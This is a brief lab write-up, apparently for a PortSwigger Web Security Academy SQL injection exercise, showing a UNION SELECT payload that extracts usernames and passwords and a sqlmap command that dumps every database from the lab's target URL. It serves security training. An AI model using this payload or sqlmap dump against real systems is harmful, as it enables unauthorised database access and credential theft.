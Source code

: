 https://portswigger.net/web-security/sql-injection/union-attacks/lab-retrieve-data-from-other-tables
If we could retrieve data from certain column, you should use `from` keyword
```
' UNION SELECT username, password FROM users--
```

### automated
You could easily do this lab with automated tools:
```bash
sqlmap --dump-all -u "https://0adc00b404a522928156e34000c8000d.web-security-academy.net/filter?category=Pets" -p category --level=3 --risk=3 --batch --dbs
```

